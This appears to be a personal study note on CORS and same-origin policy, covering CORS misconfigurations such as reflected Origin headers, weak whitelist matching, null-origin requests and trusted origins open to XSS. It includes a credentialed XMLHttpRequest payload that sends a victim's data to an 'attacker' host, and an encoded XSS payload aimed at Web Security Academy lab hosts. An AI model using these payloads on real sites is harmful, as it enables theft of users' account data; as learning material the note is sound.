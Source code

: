 Cross-origin resource sharing(CORS) is a browser mechanism which enables contolled access to resources located outside a given domain

Same-origin policy aims to prevent websites from attacking each other.

when a browser sends an HTTP request from on origin to another, any cookies, aincluding authentication session cookies, relevant to the other domain are also send as part of the request. This means that the reponse will be generated within the user's session, and include any relevant datat that is specific to a user

if youre in www.test.com, you can run a script to access www.another.com

Cross-Origin Request Blocked: The Same Origin Policy disallows reading the remote resource at https://www.google.com/my.policy. (Reason: CORS header ‘Access-Control-Allow-Origin’ missing).

The same origin policy generally controls the access that js code has to content that is loaded cross-domain, cross origin loading of page resources is generally permitted, but while the external resources can be loaded by the page, any js on the page wont be able to read the contents of these resources

Many websites interact with subdomains or third-party sites in a way that requires full cross origin access,

A controlled relaxation of same-origin policy is possible using cross-origin resource sharing

it defines trusted web origins and associated properties such as whether authenticated access is permitted

when a site make a cross domain request, the response should return with
Access-Control-Allow-Origin : https://letthissitegetresponse

only then the code will get access to that resource

Access-Control-Allow-Credentials: true
can be set to make the code access authentication based cookies too

Cors congiguration issues:

reading the origin header and including a response header wiht
Access-control-allow-rigin: url taken from the orgin header

"
var xhr = new XMLHttpRequest();
xhr = onload = reqListener();
xhr.open('get', 'https://vulnerable-site/getinfo',true);
xhr.withCredentials = true;
xhr.send();

function reqListener() {
	location = 'https://attacker/test?key=' + this.responseText;
};
"

some of the site whitle list the origin sites, which might grep for the site starts with certian name or has certain name, which can bypassed by registering that domain with certain constrains

allow --> normalsite.com
spoofed --> hackernormalsite.com or normalsite.com.hacker.net

origin: null can also used to get information

attacker can use iframe sandbox feature to make null origin request thus bypassing the whitelist

If a website trusts an origin that is vulnerable to xss then an attaker could exploit the xss to inject some js that retreve sensitive data

'
<script>
location = "http://stock.acec1f6b1eb70a8880581790001000f2.web-security-academy.net/?productId=%3Cscript%3Evar+xhr+%3d+new+XMLHttpRequest()%3bxhr.onload+%3d+reqListener%3bxhr.open(%22GET%22,%22https%3a//acec1f6b1eb70a8880581790001000f2.web-security-academy.net/accountDetails%22,%22true%22)%3bxhr.withCredentials+%3d+true%3bxhr.send()%3bfunction+reqListener()+{location+%3d+%22https%3a//ac291f091e650a8c80ce17a401f400c2.web-security-academy.net/%3fkey%3d%22%2bthis.responseText%3b}%3C/script%3E&storeId=1";
</script>
'

if users within the private ip address space acces the public internet then a cors based attack can be performed from the external site that uses that victim's broweser as a proxy for access intranet resources


